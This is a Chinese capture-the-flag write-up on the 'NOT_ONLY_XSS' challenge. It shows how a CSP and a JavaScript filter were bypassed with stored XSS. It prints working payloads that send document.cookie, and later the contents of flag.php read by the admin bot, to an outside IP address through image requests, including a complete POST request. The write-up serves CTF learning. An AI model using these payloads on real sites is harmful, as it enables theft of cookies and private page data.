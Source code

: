 在VPS上可以收到这样的数据

![XSS1](https://moxiaoxi.info/img/post/whctf/NOT_ONLY_XSS1.jpeg)

然后，访问一下页面

`http://118.31.15.206:20006/upload/26a155556d805e00c4c5a845e9418515.html`

可以看到这个页面不仅有CSP的限制，还有一个filter.js代码。这个代码会限制很多JS的操作。

通过本地测试，以下代码可以绕过限制

```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline';style-src 'self' 'unsafe-inline';img-src *;">
<script src='../js/filter.js'></script>
<h2>Phone</h2> 15084760817<br>
<h2>secret</h2><br>
<img src="http://45.62.96.72:5678/11">
<script>
    var ss = "http://45.62.96.72:5679/2/?p="+document.cookie;
    var elem = document.createElement("img");
    elem.setAttribute("src", ss);
    document.body.appendChild(elem);
</script>
<h2>Email</h2>momomomoxiaoxi@gmail.com
```

![XSS2](https://moxiaoxi.info/img/post/whctf/NOT_ONLY_XSS2.png)

可以弹到数据！（这里说明一下，为什么要弹两次。主要是为了通过第一个img获取生成的网页的具体网址。好当发现后面的js代码没有执行时，获取原始页面内容，查看是否是语法错误或者其它，方便调试）

接下里就掉入一个大坑中了。在测试中，发现这个payload在远程永远无法执行。很迷。。

后来，才发现提交的代码中js字符串拼接的+号，直接提交时会被解码成空格生成页面。那么后面的js代码就有语法错误，所以无法执行。

![XSS3](https://moxiaoxi.info/img/post/whctf/NOT_ONLY_XSS3.png)

所以，在提交的时候需要对+编码。

此时，JS能够成功执行，但是document.cookie是空，说明不是打cookie的值。后来，发现存在一个flag.php文件。这里很神奇，本来感觉基本没办法读取。因为是flag.php，感觉admin访问和用户访问应该显示的是一样的（这里无cookie机制，即没权限区分。当然可能是httponly的Cookie，打不出来）。但是，后来抱着试一试的心态，突然把flag打到了。这里的问题在于XSS bot是以PhantomJS/2.1.1开发的，而它可以直接读取到源码。

payload：

```html
POST / HTTP/1.1
Host: 118.31.15.206:20006
Content-Length: 303
Cache-Control: max-age=0
Origin: http://118.31.15.206:20006
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://118.31.15.206:20006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: PHPSESSID=1cmok66ci2idscuhaq8b5649s6
Connection: close

name=mo+xiaoxi&email=momomomoxiaoxi%40gmail.com&phone=15084760817&verify=541274&secret=<img src="http://45.62.96.72:5678/11"><script>var xhr = new XMLHttpRequest();var url = "../flag.php";xhr.open("GET", url, true);xhr.send(null);setTimeout(function(){console.log(xhr);var ss = "http://45.62.96.72:5679/?p="%2bescape(xhr.responseText);var elem = document.createElement("img");elem.setAttribute("src", ss);document.body.appendChild(elem);}, 3000);</script>
```
